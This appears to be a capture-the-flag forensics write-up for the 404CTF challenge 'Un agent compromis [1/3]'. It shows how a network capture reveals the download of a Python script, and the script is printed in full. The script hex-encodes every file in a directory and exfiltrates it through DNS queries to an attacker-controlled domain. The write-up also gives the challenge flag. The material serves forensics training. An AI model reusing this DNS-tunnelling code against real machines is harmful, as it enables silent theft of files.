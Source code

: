 #  Forensics / Un agent compromis [1/3]

## Challenge (Easy)
Nous avons surpris un de nos agents en train d'envoyer des fichiers confidentiels depuis son ordinateur dans nos locaux vers Hallebarde. Malheureusement, il a eu le temps de finir l'exfiltration et de supprimer les fichiers en question avant que nous l'arrêtions.

Heureusement, nous surveillons ce qu'il se passe sur notre réseau et nous avons donc une capture réseau de l'activité de son ordinateur. Retrouvez le fichier qu'il a téléchargé pour exfiltrer nos fichiers confidentiels.

## Inputs
- PCAP file: [capture-reseau.pcapng](./capture-reseau.pcapng)

## Solution
Looking at HTTP packets, we notice this pretty explicit `GET request`, downloading the python `exfiltration.py` script in clear:
```
GET /exfiltration.py HTTP/1.1
Host: hallebarde.404ctf.fr
User-Agent: Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:93.0) Gecko/20100101 Firefox/93.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://hallebarde.404ctf.fr/
Upgrade-Insecure-Requests: 1
```

The script content is pulled in the corresponding HTTP response; The flag is in clear in the python code:
```python
import binascii
import os
import dns.resolver
import time

def read_file(filename):
    with open(filename, "rb") as f:
        return binascii.hexlify(f.read())


def exfiltrate_file(filename):
    dns.resolver.resolve("never-gonna-give-you-up.hallebarde.404ctf.fr")
    time.sleep(0.1)
    dns.resolver.resolve(binascii.hexlify(filename.encode()).decode() + ".hallebarde.404ctf.fr")
    content = read_file(filename)
    time.sleep(0.1)
    dns.resolver.resolve("626567696E.hallebarde.404ctf.fr")
    time.sleep(0.1)
    for i in range(len(content)//32):
        hostname = content[i * 32: i * 32 + 32].decode()
        dns.resolver.resolve(hostname + ".hallebarde.404ctf.fr")
        time.sleep(0.1)
    if len(content) > (len(content)//32)*32:
        hostname = content[(len(content)//32)*32:].decode()
        dns.resolver.resolve(hostname + ".hallebarde.404ctf.fr")
        time.sleep(0.1)
    dns.resolver.resolve("656E64.hallebarde.404ctf.fr")
    time.sleep(60)


if __name__ == "__main__":
    files = os.listdir()
    print(files)
    for file in files:
        print(file)
        exfiltrate_file(file)


flag = """404CTF{t3l3ch4rg3m3n7_b1z4rr3}"""
```

## Flag
404CTF{t3l3ch4rg3m3n7_b1z4rr3}
